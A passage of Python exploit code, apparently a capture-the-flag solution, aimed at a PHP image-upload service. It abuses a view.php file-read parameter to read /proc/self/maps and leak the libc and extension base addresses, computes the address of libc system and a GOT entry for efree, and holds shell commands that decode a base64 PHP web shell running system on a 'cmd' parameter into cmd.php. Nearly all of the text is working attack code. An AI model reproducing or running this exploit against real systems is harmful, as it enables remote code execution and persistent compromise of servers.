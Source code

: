 ```python3
    "Copyright": "test"
}

image = "./hack.png"

def write_png_metadata(image_path, metadata_dict):
    image = Image.open(image_path)

    metadata = PngInfo()

    for key, value in metadata_dict.items():
        metadata.add_text(key, value)

    image.save(image_path, pnginfo=metadata)

def upload(image):
    global URL

    with open(image, "rb") as file:
        files = {"file":file}
        res = post(URL + "/upload.php", files=files)
    return res

# Leaking Addresses

res = get(f"{URL}/view.php?image=/proc/self/maps")

base64_pattern = r'data:image\/png;base64,([^"]+)'
match = re.search(base64_pattern, res.text)

if match:
    vmmap = b64decode(match.group(1)).decode()
    log.info("Read the /proc/self/maps")

    pattern = re.compile(r"([0-9a-f]+)-[0-9a-f]+ [rwxp\-]{4} \d{8} \d{2}:\d{2} \d+ +.*/metadata_reader\.so")
    match = pattern.search(vmmap)

    EXT_BASE = int("0x" + match.group(1), 16)

    pattern = re.compile(r"([0-9a-f]+)-[0-9a-f]+ [rwxp\-]{4} \d{8} \d{2}:\d{2} \d+ +.*/libc\.so\.6")
    match = pattern.search(vmmap)

    LIBC_BASE = int("0x" + match.group(1), 16)

    log.info("extension base address: " + hex(EXT_BASE))
    log.info("libc base address: " + hex(LIBC_BASE))

else:
    log.error("Can't read the /proc/self/maps, the exploit will exit")
    exit()



SYSTEM = LIBC_BASE + 0x4c3a0
GOT = EXT_BASE + 0x4090

log.info("libc system address: " + hex(SYSTEM))
log.info("global offset table address for efree: " + hex(GOT))

CMD1 = b"echo PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4= > tmp"
CMD2 = b"base64 -d < tmp > cmd.php ; echo "
```